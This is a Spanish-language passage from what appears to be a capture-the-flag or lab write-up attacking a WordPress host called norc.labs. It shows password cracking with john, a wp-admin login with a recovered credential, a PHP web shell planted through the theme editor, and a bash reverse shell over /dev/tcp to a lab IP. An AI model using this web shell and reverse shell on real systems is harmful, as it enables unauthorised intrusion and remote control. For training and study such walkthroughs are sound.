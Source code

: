 Intentamos crackear el `hash` que hemos obtenido con `john`, pero no tendremos éxito

~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
~~~

![[Pasted image 20241030132503.png]]

Volvamos a ver los datos que recolectamos, si exploramos el nuevo dominio en el navegador, nos redirige a lo siguiente

![[Pasted image 20241030131326.png]]

Bueno... Podemos usar esta nueva contraseña para intentar entrar directamente en `wp-admin`

~~~ txt
admin:wWZvgxRz3jMBQ ZN
~~~

![[Pasted image 20241030131547.png]]

![[Pasted image 20241030131600.png]]

¡Estamos dentro de `wordpress`!, el siguiente paso sería buscar una forma de ganar acceso al sistema operativo

## Remote Code Execution

Podemos abusar del editor de temas de `wordpress` para editar archivos php de algún tema para ejecutar un comando, en mi caso, seleccionaré el tema Twenty Twenty Three.

~~~ php
system($_GET['cmd']);
~~~

He seleccionado el archivo `hidden-404.php`

![[Pasted image 20241031001142.png]]

Entonces ahora debemos hacer una solicitud a este archivo especificando el parámetro `cmd` en la URL

~~~ bash
http://norc.labs/wp-content/themes/twentytwentythree/patterns/hidden-404.php?cmd=whoami
~~~

![[Pasted image 20241031004055.png]]

## Reverse Shell

Enviaríamos este comando a través del parámetro `cmd`, en este caso, podemos enviar directamente el siguiente comando con algunos caracteres codificados

~~~ bash
bash -c "bash -i >&/dev/tcp/10.88.0.1/443 0>&1"
~~~
